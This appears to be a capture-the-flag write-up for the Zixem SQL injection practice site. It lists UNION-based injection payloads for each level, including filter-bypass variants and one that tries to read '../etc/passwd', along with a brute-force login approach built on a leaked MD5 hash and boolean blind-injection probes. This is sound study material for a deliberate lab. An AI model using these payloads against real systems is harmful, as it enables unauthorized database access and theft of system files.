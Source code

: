 ## Zixem SQLi

[[Zixem SQLi](http://www.zixem.altervista.org/SQLi/)]

> #### RULES
>
> Use only **UNION BASED!**
>
> Your mission is to select only the **version** & **user** and to **take screenshot** as proof.

## Write Up

#### SQLi challenges

| [Level 1](http://www.zixem.altervista.org/SQLi/level1.php?id=1) | Super Easy |
| ------- | ---------- |

 `?id=-9999 union select version(),user(),3; --`

| [Level 2](http://www.zixem.altervista.org/SQLi/level2.php?showprofile=4) | Easy |
| ------- | ---------- |

 `?showprofile=-9999' union select user(),version(),3,4 -- -`

| [Level 3](http://www.zixem.altervista.org/SQLi/level3.php?item=3) | Medium |
| ------- | ---------- |

 `?item=-9999' unionon select user(),version(),3,4; -- -`

| [Level 4](http://www.zixem.altervista.org/SQLi/level4.php?ebookid=7) | Normal |
| ------- | ---------- |

 `?ebookid=-9999' union select user(),version(),3,4,5; -- -`

| [Level 7](http://www.zixem.altervista.org/SQLi/level7.php?id=1) | Medium |
| ------- | ---------- |

In viewsource mode:
 
 `?id=-9999 union select 1,user(),3 ; -- -`
 
 `?id=-9999 union select 1,version(),3 ; -- -`

| [Level 8](http://www.zixem.altervista.org/SQLi/lvl8.php?id=1) | Hard |
| ------- | ---------- |

 `?id=(-9999)UNION(SselectELECT(user()),version(),3)`

| [Level 9](http://www.zixem.altervista.org/SQLi/lvl9.php?id=1) | Medium |
| ------- | ---------- |

 `?id=-9999' union select('../etc/passwd'),2 ; -- -`

| [Level 10](http://www.zixem.altervista.org/SQLi/lvl10.php?x=ISwwYGAKYAo%3D) | Pro |
| ------- | ---------- |

#### BF challenges

| [Level 5](http://www.zixem.altervista.org/SQLi/login_lvl5.php) | Hard |
| ------- | ---------- |

First, viewsource this login page and scroll down to end, we will find those red lines.

```
If you want hint, enter this password.
------
~~~~~~~~~~~~~~~~~~ password: d1fd6ef9af6cb677e09b1b0a68301e0c ~~~~~~~~~~~~~~~~~~~~~~
You can use my md5Cracker .
~~~~~~~~~~~~~~~~~~~~~~~~here: md5cracker.php~~~~~~~~~~~~~~~~~
```
Then enter this url `http://www.zixem.altervista.org/SQLi/md5cracker.php?hash=d1fd6ef9af6cb677e09b1b0a68301e0c` and we find the first password. Enter it to login page and get hint.

Now we know the passwords contains **only numbers**. Let's make some [code](https://github.com/TraiOi/Wargame_WriteUp/blob/master/Zixem/Zixem_SQLi/bruteforce.py) to bruteforce the login page.

Then we get the password, login and see the result.

#### SQLi-Blind challenges

| [Level 6](http://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10) | Expererinced |
| ------- | ---------- |

Test the url:

 `?serial=10 and 1=1` return True
 
 `?serial=10 and 1=0` return False
 
Yes, then we know this is Boolean-based Blind SQL Injection.

All we can guess name of columns and table:

 * Table : teachers
 
 * Columns : teacher, price, id (I can't guess name of "age" column, I tried `age`, `ages`, `year_old`, .. but not correct, hope you can find it and comment for me)
 
Need some [code](https://github.com/TraiOi/Wargame_WriteUp/blob/master/Zixem/Zixem_SQLi/blindsqli.py) to solve it, run and wait and get information.
